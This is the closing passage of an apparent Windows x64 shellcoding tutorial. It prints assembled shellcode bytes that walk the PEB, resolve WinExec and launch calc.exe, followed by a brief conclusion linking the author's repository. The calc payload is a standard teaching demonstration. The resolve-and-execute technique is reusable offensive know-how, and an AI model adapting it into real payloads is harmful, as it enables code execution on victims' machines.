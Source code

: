 ![[Pasted image 20241111151624.png]]

The following is the assembled bytes from https://defuse.ca/online-x86-assembler.htm#disassembly. You can immediately use and test if it works on your PC.

```c
char shellcode[] = "\x55\x48\x89\xE5\x48\x81\xEC\x90\x00\x00\x00\x48\x31\xC0\x65\x48\x8B\x04\x25\x30\x00\x00\x00\x48\x8B\x40\x60\x48\x8B\x40\x18\x48\x8B\x40\x20\x48\x8B\x00\x48\x8B\x00\x48\x8D\x40\xF0\x48\x8B\x40\x30\x48\x31\xDB\x8B\x58\x3C\x48\x01\xC3\x48\x81\xC3\x88\x00\x00\x00\x48\x31\xC9\x8B\x0B\x48\x01\xC1\x48\x89\x8D\x70\xFF\xFF\xFF\x48\x31\xD2\x8B\x51\x1C\x48\x01\xC2\x48\x89\x55\x90\x48\x31\xDB\x8B\x51\x20\x48\x01\xC2\x48\x89\x55\xA0\x48\x31\xC9\x48\x31\xD2\x51\x48\xB9\xFF\x57\x69\x6E\x45\x78\x65\x63\x48\xC1\xE9\x08\x51\x54\x48\x31\xC9\xB1\x07\x51\x41\x58\x41\x59\x4D\x31\xE4\x4C\x89\xC1\x4C\x89\xCE\x48\x8B\x55\xA0\x42\x8B\x14\xA2\x49\xFF\xC4\x4C\x8D\x1C\x02\x4C\x89\xDF\xF3\xA6\x75\xE4\x48\x83\xC4\x10\x49\xFF\xCC\x48\x31\xFF\x48\x31\xD2\xB2\x04\x48\x01\xD7\x50\x48\x89\xF8\x4C\x89\xE6\x48\xF7\xEE\x48\x89\xC6\x58\x48\x8B\x7D\x90\x48\x8D\x3C\x37\x8B\x3F\x48\x01\xC7\x48\xBB\x41\x41\x41\x41\x2E\x65\x78\x65\x48\xC1\xEB\x20\x53\x48\xBB\x6D\x33\x32\x5C\x63\x61\x6C\x63\x53\x48\xBB\x77\x73\x5C\x73\x79\x73\x74\x65\x53\x48\xBB\x43\x3A\x5C\x57\x69\x6E\x64\x6F\x53\x54\x59\x48\xFF\xC2\x48\x83\xEC\x20\xFF\xD7";
```

## Conclusion

During the two days of looking through shellcodes, I think I have gotten a good idea of how shellcodes is being created. Hopefully, this had helped you have a much clearer and concrete understanding about basic shellcoding as well and go on to create other kinds of shellcode!

You can refer to the [my github repository](https://github.com/Owl4444/Understanding_Windows_Shellcoding) for the full code. 

---
